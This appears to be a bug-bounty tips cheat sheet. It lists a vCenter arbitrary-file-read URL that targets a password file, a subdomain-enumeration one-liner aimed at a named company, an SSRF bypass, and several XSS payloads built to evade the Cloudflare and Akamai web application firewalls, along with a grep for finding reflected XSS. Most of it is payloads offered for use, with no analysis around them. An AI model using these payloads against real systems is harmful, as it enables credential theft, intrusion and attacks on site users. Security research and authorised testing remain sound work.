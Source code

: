 ## Subdomain Takeover POC by [0xpatrik](https://twitter.com/0xpatrik)
- ***https://0xpatrik.com/takeover-proofs/***

## Unauthenticated Arbitrary File Read vulnerability in VMware vCenter before version 6.5u1

PoC for extracting passwords from http://vcdb.properties file - /eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\http://vcdb.properties

**Source:** https://twitter.com/payloadartist/status/1345760740465000448?s=20

## Subdomain Enumeration
```sh
curl -s "https://jldc.me/anubis/subdomains/att.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew
```
 ***Note: for enumerating more target change att.com to your target domain***

## SSRF Bypass
```text
http://google.com:80\\@yahoo.com/
```
which will send request to `yahoo` instead of `google`

## Cloudflare xss bypass payloads by @spyerror
```js
<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>
<svg%0Aonauxclick=0;[1].some(confirm)//
```

## SSRF on image Renderer
***https://hackerone.com/reports/811136***

## Cloudflare XSS Bypass via add 8 or more superfluous leading zeros for dec and 7 or more for hex.
```js
Dec: <svg onload=prompt%26%230000000040document.domain)>
Hex: <svg onload=prompt%26%23x000000028;document.domain)>
```

## Hunt for Low Hanging Fruits 
If you're hunting for low-hanging bugs in source code, grep and regex can help you to identify hotspots. For example, you might find basic rXSS in PHP with something like this:
```sh
grep -r "echo.*\$_\(GET\|REQUEST\|POST\)" 
```

## site-wide, target specific Akamai XSS Bypass 
The word "javascript" is removed in all reflection contexts, which can be abused to craft Akamai bypasses:
```js
<ijavascriptmg+src+ojavascriptnerror=confirm(1)>
````
⬇️
```js
<img src onerror=confirm(1)>
```
